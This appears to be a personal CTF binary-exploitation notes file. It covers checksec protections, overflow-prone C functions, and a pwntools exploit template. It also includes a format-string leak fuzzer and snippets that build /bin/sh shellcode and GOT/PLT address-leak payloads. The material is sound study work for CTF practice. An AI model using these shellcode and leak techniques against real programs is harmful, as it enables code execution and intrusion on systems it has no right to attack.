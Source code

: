 # writeup and some notes (last update 17 December 2023)

## PWN Notes

1. Run `checksec` check the properties of executable of binary security.
	- **Stack Canaries** = a secret value placed on the stack which changes every time the program is started. the stack canary is checked and if it appears to be modified, the program exits immeadiately.
	- **Nx** = stored input or data cannot be executed as code
	- **Address Space Layout Randomization (ASLR)** = The randomization of the place in memory where the program, shared libraries, the stack, and the heap are.
	- **RELRO** = makes binary sections read-only.
2. Function that can lead to buffer overflow
- scanf
- read
- strcat
- fread
- fgets
- sprintf
- strcpy
- gets
- memcpy
- memmove
- strncpy
- snprintf
- strncat
4. Functions in assembly x86
	```shell
	; write the string to stdout  
	mov eax, 4 ; system call for write  
	mov ebx, 1 ; file descriptor for stdout  
	mov ecx, hello ; address of the string  
	mov edx, len ; number of bytes to write  
	int 80h ; invoke the kernel to perform the system call  
	  
	; exit with success  
	mov eax, 1 ; system call for exit  
	xor ebx, ebx ; return code of 0 for success  
	int 80h ; invoke the kernel to perform the system call
	
	; read input
	mov    edx,0x3c # Store 0x3c in edx
	mov    eax,0x3 # syscall for read()
	int    0x80 # invoke syscall
	add    esp,0x3c # esp increase
	``` 
5. Script i normally use 
- Template i got from crypto cat
``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './<file>'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 20

payload = flat(

)

# Save the payload to file
write('payload', payload)
# Send the payload
io.sendline( payload)
# Receive the flag
io.interactive()
```
- fuzzer (%p for address leaking, %s for secrets leaking)
```python
from pwn import *
import os

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./pakmat_burger', checksec=False)
os.environ["SECRET_MESSAGE"] = "YOKO"

# Let's fuzz 100 values
for i in range(1,100):
    try:
        p = process(level='error')
        p.sendlineafter(b': ', '%{}$p'.format(i).encode())
        result = p.recv().split(b' ')
        result = result[1].split(b',')
        leak_char = result[0].ljust(8,b"\x00")
        print(str(i) + ': ' + str(leak_char).strip())
        p.close()
    except EOFError:
        pass
```
6. gdb-pwndbg useful commands
```bash
  run <<< $(python <code>) #input as stdin
  run < ./payload.txt #input as stdin
  run $(python <code>) #input as arg
  canary # check stack canary address
  x/100x $rsp # check 100 bytes in rsp 
```
7. pwntools functions
```python
# example payload converter func
payload = flat(
    b'\x90' * padding,
    esp+20,
    shellcode
)
# shellcode using asm
asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))
shellcode = asm(shellcraft.cat('flag.txt'))
shellcode = asm(shellcraft.sh())
# getting address
main = p64(elf.symbols.main)
plt_puts = p64(elf.plt.puts)
got_puts = p64(elf.got.puts)
# for leaking address, pop_rdi(pop rdi, ret; gadget)
secondPayload += pop_rdi + got_puts + plt_puts 
# output format i used for leaking address
leak_puts = u64(output[0].ljust(8,b"\x00"))
leak_printf = u64(output[1].ljust(8,b"\x00"))
print("puts {}".format(str(hex(leak_puts))))
print("printf {}".format(str(hex(leak_printf))))
```

## Pwn Resources
- https://github.com/Crypto-Cat/
- https://zeynarz.github.io/posts/wgmy23/
- https://razvioverflow.github.io/tryhackme/pwn101.html
